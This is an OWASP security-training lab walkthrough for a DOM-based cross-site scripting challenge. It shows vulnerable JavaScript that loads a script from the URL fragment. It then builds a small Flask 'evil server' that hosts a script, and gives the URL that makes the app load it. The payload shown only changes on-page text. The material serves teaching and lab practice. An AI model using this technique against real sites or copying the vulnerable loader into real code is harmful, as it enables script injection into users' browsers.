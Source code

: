 # Cross Site Scripting \(DOM-2\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:xss-dom-2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:xss-dom-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/4.png)

Inspecting the source code of the application.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/5.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/1.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```python
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "XSS-DOM-2";
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](../../.gitbook/assets/nodejs/XSS-DOM-2/2.png)

Now we can serve our malicious js file to the application

```text
http://0.0.0.0:5000/#xxxxhttp://0.0.0.0:1337
```

![](../../.gitbook/assets/nodejs/XSS-DOM-2/3.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}
